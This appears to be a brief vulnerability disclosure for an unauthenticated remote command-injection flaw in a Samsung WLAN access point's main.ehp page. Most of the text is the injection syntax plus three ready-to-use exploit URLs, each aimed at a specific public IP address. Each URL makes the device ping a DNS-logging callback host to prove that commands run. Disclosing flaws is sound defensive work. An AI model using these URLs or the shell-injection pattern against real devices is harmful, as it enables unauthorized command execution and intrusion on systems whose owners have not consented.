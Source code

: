 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.
main.ehp exists for remote command execution.
For example, execute the ping command through the shell.
Command format:&command1=shell:ping+dnslog
Execute commands directly through the browser without logging into the device.
xxx/main.ehp?cate=test&path=users&command1=shell:ping+dnslog
The following examples verify the existence of the vulnerability：

`http://220.92.38.104/main.ehp?cate=test&path=users&command1=shell:ping+ad1f15a7.dns.1433.eu.org`

![](1.png)
 
`http://112.170.189.230/main.ehp?cate=test&path=users&command1=shell:ping+05c1e934.dns.1433.eu.org`
 
`http://121.174.124.33/main.ehp?cate=test&path=users&command1=shell:ping+78d29a40.dns.1433.eu.org`

